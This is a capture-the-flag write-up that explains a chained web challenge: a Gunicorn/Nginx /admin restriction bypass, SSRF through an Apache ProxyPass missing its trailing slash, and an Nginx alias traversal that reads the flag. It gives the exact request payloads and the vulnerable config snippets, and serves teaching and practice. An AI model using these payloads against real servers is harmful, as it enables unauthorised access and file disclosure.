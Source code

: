 ## Solving steps
1. Gunicorn + Nginx 403 `/admin` path restriction bypass via [technique](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14): `GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`
2. Find path as random UUID from the response: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`
3. Find `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` path with other backend
4. Exploit SSRF via misconfigured Apache ProxyPass: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx`
5. Exploit Nginx alias traversal for limited file reading: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

![Schema](docs/dfd.png)

## Step #1

Hint is on main page:

```
Hello? My name is gunicorn and I have a friend called Nginx. We are really weird couple: proxy and backend :)</div><div>Can you find something behind /admin?
```

Keywords: weird, proxy, nginx, gunicorn

Player should find a way to bypass nginx path protection for reading /admin path.

Protection implemented at file: `reverse_nginx/nginx.conf`:

```
    location /admin {
        deny all;
    }
```

The key is finding repo [weird_proxies](https://github.com/GrrrDog/weird_proxies/) and one of the last presentation by the author [Weird proxies/2 and a bit of magic
](https://speakerdeck.com/greendog/2-and-a-bit-of-magic). On slide #14 we can find reverse proxy inconsistence example for Nginx + Gunicorn: [Slide #14](https://speakerdeck.com/greendog/2-and-a-bit-of-magic?slide=14)

Finally, payload is:
`GET /admin<TAB>HTTP/1.1/../../ HTTP/1.1`

Why it works:
- Nginx after path normalization: `/` - is not /admin so there is no restriction to access
- Forward: `/admin<TAB>HTTP/1.1/../../`
- Gunicorn after path parsing: `/admin`


## Step #2

From the previous step we have "secret" path: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/`

Here we found message:

```
    <h2>Search something?</h2>
    The application consists of several hosts:
    <ul>
        <li>default_backend_apache - accessible via /wiki/</li>
        <li>backend_nginx - internal network only</li>
    </ul>
```
Go to path `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` for accessing default_backend_apache.

Second bulnerability in reverse_apache misconfiguration in file `reverse_apache/my-httpd.conf`:

```
<VirtualHost *:80>
    DocumentRoot "/usr/local/apache2/htdocs/"
    ProxyPass    "/wiki/"  "http://default_backend_apache"
    ProxyPassReverse "/wiki/" "http://default_backend_apache/"
</VirtualHost>
```

`ProxyPass    "/wiki/"  "http://default_backend_apache"` is configured incorrectly (without trailing slash). So any character after `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/` will be added to hostname `default_backend_apache`. It means it can be exploited for SSRF.
More info about misconfiguration [here](https://github.com/GrrrDog/weird_proxies/blob/master/Apache.md#vulnerable-configs)

For going to the next step: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91//wiki/@backend_nginx`

## Step #3

Pretty known Nginx alias traversal bug. More info about misconfiguration [here](https://github.com/yandex/gixy/blob/master/docs/en/plugins/aliastraversal.md)

Misconfigured code in file `backend_nginx/nginx.conf`:

```
    # Alias traversal
    location /imgs {
        autoindex on;
        alias /usr/share/nginx/imgs/;
    }
```

Exploit for reading file: `/c7f5472b-4e09-4997-9eff-e1b7442b8b91/wiki/@backend_nginx/imgs../flag`

Btw, nginx shows files in directory with configuration: `autoindex on;`. So it's easy to identify flag location after getting alias traversal.
